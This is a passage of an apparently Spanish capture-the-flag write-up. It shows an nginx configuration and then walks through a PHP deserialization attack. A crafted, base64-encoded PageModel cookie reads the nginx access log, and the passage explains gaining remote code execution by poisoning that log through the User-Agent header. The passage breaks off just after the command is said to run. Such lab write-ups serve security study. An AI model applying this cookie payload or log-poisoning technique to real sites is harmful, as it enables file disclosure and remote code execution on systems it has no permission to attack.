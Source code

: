 ```
    keepalive_timeout 20s;
    sendfile on;
    tcp_nopush on;
    client_max_body_size 1M;

    include  /etc/nginx/mime.types;

    server {
        listen 80;
        server_name _;

        index index.php;
        root /www;

        location / {
            try_files $uri $uri/ /index.php?$query_string;
            location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass unix:/run/php-fpm.sock;
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params;
            }
        }
    }
}
```

Vemos como existe un archivo log en ```/var/log/nginx/access.log``` al cual le podemos hacer log poisoning para envenenar el registro de nginx, para esto debemos de crear otra cookie pero indicandole ese log:

```
O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}'
```

La pasamos a base64 y nos queda:

```echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64```

```
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQo=
```

Ahora nos vamos al burpsuite y relizamos la peticion con esa cookie:

![](/assets/img/toxic/3.png)

Basicamente podemos ver todas las peticiones que se han hecho, aca una:

```
206.189.29.104 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0" 
```

Vemos que en cada peticion se registra la IP, el metodo, version de HTTP, el User-Agent y la URL, 

En un log poisoning, podemos consegir un RCE registrando nuestro codigo malicioso en el User-Agent, el metodo y la ruta, en este caso lo haremos a travez del User-Agent

Esto es tan facil como al final del User-Agent le indicamos lo que queremos ejecutar:

![](/assets/img/toxic/4.png)

Y vemos como nuestro comando es ejecuto correctemante, y en los logs, al final del User-Agent se agrego un ```bin```:
```
